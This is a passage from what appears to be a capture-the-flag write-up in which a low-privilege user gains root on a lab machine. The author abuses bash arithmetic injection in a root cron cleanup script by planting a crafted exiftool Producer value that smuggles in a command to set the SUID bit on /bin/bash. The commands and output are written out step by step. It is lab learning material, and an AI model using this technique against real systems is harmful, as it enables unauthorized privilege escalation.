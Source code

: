 ``` 
2023/03/30 22:26:01 CMD: UID=0     PID=2783   | /bin/sh -c /usr/local/sbin/cleancache.sh 
2023/03/30 22:26:01 CMD: UID=0     PID=2782   | /usr/sbin/CRON -f 
```
Reading this file
```
www-data@interface:/dev/shm$ cat /usr/local/sbin/cleancache.sh 
```
**Result**
```
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```
This script iterates over files in the `/tmp` directory and checks if they are files (`-f` option). If a file is found, it uses the `exiftool` command to extract the metadata producer information from the file. If the producer is `dompdf`, the script deletes the file using the `rm` command.

This line is vulnerable to [arithmetic injection](https://research.nccgroup.com/2020/05/12/shell-arithmetic-expansion-and-evaluation-abuse/)
```
meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)   
```
I will use as reference 
```
`# VARIABLE='arr[$(uname -n -s -m -o)]' ./arithmetic.sh  
arr[$(uname -n -s -m -o)]
```
Instead of running command as above  i will create a file which executes a `suid` binary of `bash` and name it as `hash.sh`
```
www-data@interface:~$ cat > hash.sh <<EOF                                                                                                                            
> #!/bin/bash                                                                                                                                                        
> chmod u+s /bin/bash                                                                                                                                                
> EOF
> www-data@interface:~$
```
Now i will create a file in `/tmp` directory because the cleaning script cleans files that are in `/tmp` also i will add  metadata by using `exiftool` 
```
www-data@interface:~$ exiftool -Producer='a[$(hash.sh>&2)]+42'
www-data@interface:~$ touch /tmp/lol
www-data@interface:~$ exiftool -Producer='a[$(hash.sh>&2)]+42' /tmp/lol
    1 image files updated
www-data@interface:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Apr 18  2022 /bin/bash
www-data@interface:~$ bash -p

bash-4.4# cat /root/root.txt
f64108af50*****************
```
